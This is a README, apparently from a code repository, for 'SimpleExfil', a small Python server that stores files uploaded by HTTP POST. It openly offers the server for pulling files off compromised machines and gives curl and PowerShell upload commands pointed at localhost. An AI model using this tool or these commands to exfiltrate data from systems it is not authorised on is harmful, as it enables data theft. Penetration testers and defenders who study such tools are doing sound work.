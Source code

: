 # SimpleExfil

SimpleExfil lets you exfiltrate your files. This server accepts and stores files sent through HTTP POST requests, ideal for operations requiring file uploads from compromised machines or remote systems. It's lightweight, easy to deploy, and listens on a customizable port.

## Requirements

- Python 3.x

## Usage

Start the server by specifying the desired port as an argument. If no port is specified, it defaults to 8000.

```
python simpleexfil.py 8000
```

To upload a file, use `curl` from the command line, PowerShell, or any suitable HTTP client. Example for uploading `example.txt`:

```
curl -F "file=@example.txt" http://127.0.0.1:8000
```
Note that this only works with actual `curl`, so this command might not work in PowerShell.

To upload a file using PowerShell you can use the following (may not be very reliable):
```
(New-Object System.Net.WebClient).UploadFile("http://127.0.0.1:8000", "C:\tmp\example.txt")
```

Server can also be accessed on the browser for a classic upload UI.

### Enhanced Web UI

This tool includes a drag-and-drop interface. After starting the
server, open your browser and navigate to `http://127.0.0.1:8000/` to access the
new UI. Drop a file onto the highlighted area or click to choose a file and it
will be uploaded automatically.

## File Storage Behavior

The server uses the base name of the uploaded file when saving to avoid
directory traversal attacks. If a file with the requested name already
exists, a numerical suffix is appended (e.g. `file.txt`, `file_1.txt`,
`file_2.txt`, ...).
